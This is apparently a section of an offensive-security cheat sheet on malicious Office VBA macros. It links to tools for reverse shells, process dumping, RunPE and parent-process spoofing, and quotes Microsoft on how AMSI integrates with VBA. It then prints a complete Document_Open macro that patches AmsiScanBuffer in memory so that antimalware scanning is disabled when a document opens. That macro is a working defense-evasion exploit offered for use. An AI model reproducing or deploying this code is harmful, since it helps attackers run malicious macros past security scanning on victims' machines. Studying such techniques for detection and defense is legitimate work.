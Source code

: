 * Reverse Shell VBA - https://github.com/JohnWoodman/VBA-Macro-Reverse-Shell/blob/main/VBA-Reverse-Shell.vba
* Process Dumper - https://github.com/JohnWoodman/VBA-Macro-Dump-Process
* RunPE - https://github.com/itm4n/VBA-RunPE
* Spoof Parent - https://github.com/py7hagoras/OfficeMacro64
* AMSI Bypass - https://github.com/outflanknl/Scripts/blob/master/AMSIbypasses.vba
* amsiByPassWithRTLMoveMemory - https://gist.github.com/DanShaqFu/1c57c02660b2980d4816d14379c2c4f3
* VBA macro spawning a process with a spoofed parent - https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba

## VBA - AMSI

> The Office VBA integration with AMSI is made up of three parts: (a) logging macro behavior, (b) triggering a scan on suspicious behavior, and (c) stopping a malicious macro upon detection. https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/


![](https://www.microsoft.com/security/blog/wp-content/uploads/2018/09/fig2-runtime-scanning-amsi-8-1024x482.png)

:warning: It appears that p-code based attacks where the VBA code is stomped will still be picked up by the AMSI engine (e.g. files manipulated by our tool EvilClippy).

The AMSI engine only hooks into VBA, we can bypass it by using Excel 4.0 Macro

* AMSI Trigger - https://github.com/synacktiv/AMSI-Bypass

```vb
Private Declare PtrSafe Function GetProcAddress Lib "kernel32" (ByVal hModule As LongPtr, ByVal lpProcName As String) As LongPtr
Private Declare PtrSafe Function LoadLibrary Lib "kernel32" Alias "LoadLibraryA" (ByVal lpLibFileName As String) As LongPtr
Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As Any, ByVal dwSize As LongPtr, ByVal flNewProtect As Long, lpflOldProtect As Long) As Long
Private Declare PtrSafe Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (Destination As Any, Source As Any, ByVal Length As LongPtr)
 
Private Sub Document_Open()
    Dim AmsiDLL As LongPtr
    Dim AmsiScanBufferAddr As LongPtr
    Dim result As Long
    Dim MyByteArray(6) As Byte
    Dim ArrayPointer As LongPtr
 
    MyByteArray(0) = 184 ' 0xB8
    MyByteArray(1) = 87  ' 0x57
    MyByteArray(2) = 0   ' 0x00
    MyByteArray(3) = 7   ' 0x07
    MyByteArray(4) = 128 ' 0x80
    MyByteArray(5) = 195 ' 0xC3
 
    AmsiDLL = LoadLibrary("amsi.dll")
    AmsiScanBufferAddr = GetProcAddress(AmsiDLL, "AmsiScanBuffer")
    result = VirtualProtect(ByVal AmsiScanBufferAddr, 5, 64, 0)
    ArrayPointer = VarPtr(MyByteArray(0))
    CopyMemory ByVal AmsiScanBufferAddr, ByVal ArrayPointer, 6
     
End Sub
```
